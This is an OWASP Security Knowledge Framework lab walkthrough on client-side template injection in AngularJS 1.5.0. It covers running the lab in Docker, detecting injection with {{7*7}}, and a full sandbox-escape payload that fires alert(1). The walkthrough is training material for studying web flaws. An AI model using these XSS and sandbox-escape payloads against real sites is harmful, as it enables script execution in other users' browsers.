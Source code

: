 # KBID 111 - Client Side Template Injection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-1.png)

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```markup
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

{% hint style="info" %}
We are going to use the same payload of the XSS lab
{% endhint %}

```markup
"><script>alert('XSS')</script>
```

Unfortunately the alert does not trigger :(

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

### Step3

{% hint style="warning" %}
How do we get XSS?
{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-3.png)

{% hint style="success" %}
Bingo!!
{% endhint %}

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox&#x20;
- forge a working payload&#x20;

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```markup
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```javascript
{
  {
    c = "".sub.call;
    b = "".sub.bind;
    a = "".sub.apply;
    c.$apply = $apply;
    c.$eval = b;
    op = $root.$$phase;
    $root.$$phase = null;
    od = $root.$digest;
    $root.$digest = {}.toString;
    C = c.$apply(c);
    $root.$$phase = op;
    $root.$digest = od;
    B = C(b, c, b);
    $evalAsync(
      " astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "
    );
    m1 = B($$asyncQueue.pop().expression, null, $root);
    m2 = B(C, null, m1);
    [].push.apply = m2;
    a = "".sub;
    $eval("a(b.c)");
    [].push.apply = a;
  }
}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
